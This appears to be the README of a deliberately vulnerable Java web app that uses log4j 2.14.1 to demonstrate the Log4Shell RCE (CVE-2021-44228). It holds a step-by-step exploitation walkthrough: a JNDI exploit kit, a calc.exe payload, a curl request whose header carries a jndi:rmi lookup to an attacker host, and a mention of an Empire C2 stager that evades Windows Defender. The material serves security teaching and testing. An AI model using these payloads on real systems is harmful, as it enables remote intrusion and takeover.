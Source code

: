 # log4shell vulnerable app

This is a basic, minimal, intentionally vulnerable Java web application
including a version (2.14.1) of the [log4j](https://en.wikipedia.org/wiki/Log4j)
library affected by the infamous
[log4shell](https://en.wikipedia.org/wiki/Log4Shell) (CVE-2021-44228)
vulnerability.

## build and run instructions

Gradle wrapper should solve everything. Simply git clone the repo:

```
git clone https://github.com/tothi/log4shell-vulnerable-app
```

And in the project dir with the file [build.gradle](./build.gradle),
simply run:

```
./gradlew appRun
```

or on Windows platform:

```
.\gradlew.bay appRun
```

(JDK is needed.)

The vulnerable application should listen on _all_ interfaces by
default (DANGEROUS behavior if you run it on a production box).

It is available on the URL:

```
http://<IP_ADDR>:8888/app/
```

Note, that the log4j vulnerability triggers only when the app performs
some log4j logging activity. In this demo app, it is active when accessing
the URL:

```
http://<IP_ADDR>:8888/app/servlet
```

and passing a string in the Header "x-log". (This is what gets logged.)
For example, using curl:

```
curl http://<IP_ADDR>:8888/app/servlet -H 'x-log: <payload>'
```

This highlights that __detecting the log4j vulnerability is not obvious at all__.

## exploiting the RCE

Here are some instructions on how to exploit the RCE (even on up-to-date
default Java configurations with TrustURLCodebase set to false).
Tested on Linux and Windows with Java 11.0.1[23].

Simply use the [JNDI Injection Exploit Kit](https://github.com/welk1n/JNDI-Injection-Exploit) by welk1n or a more recent [fork](https://github.com/pimps/JNDI-Exploit-Kit) by pimps.

Steps to perform (in this example, target host is 192.168.56.101 and attacker gost is 192.168.56.1):

1. Launch the vulnerable web app with `.\gradlew.bat appRun`. It listens
on 192.168.56.101:8888 and uses Tomcat 8.5 as a backend. Tomcat 8 (in the classpath) is mandatory for the javax.el.ELProcessor RMI exploit path (supported by the current version of the JNDI Injection Exploit Kit).

2. Launch the JNDI Injection Exploit Kit on the attacker host after building with `mvn package` with `java -jar target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'calc.exe'` (the payload will execute calc.exe on the target). Helper servers are started now on 192.168.56.1. Assuming the RMI url for trustURLCodeBase false config is `rmi://192.168.56.1:1099/xzmtee`.

3. Trigger the exploit by sending the malicious payload through the "x-log" header: `curl http://192.168.56.101:8888/app/servlet -H 'x-log: ${jndi:rmi://192.168.56.1:1099/xzmtee}`

4. The app should use the vulnerable log4j for logging the contents of the "x-log" header. While logging, it looks up the referenced RMI URL, and the JNDI Kit sends the RCE payload classloading reference.

5. Note, that instead of logging the actual content of the "x-log" header, the referenced class name ("javax.el.ELProcessor") gets logged.

6. On the target host, calc.exe should be spawned, reaching RCE.

![](./log4shell_rce_demo.png)

UPDATE: here is an extra PoC screenshot for those who are curious and doubt whether launching a calc.exe is useful for anything at all. In this screenshot, replaced the calc.exe payload with an Empire stager giving a full featured C2 Empire Agent (also bypassing up-to-date Windows Defender).

![](./log4shell_rce_demo_empire.png)
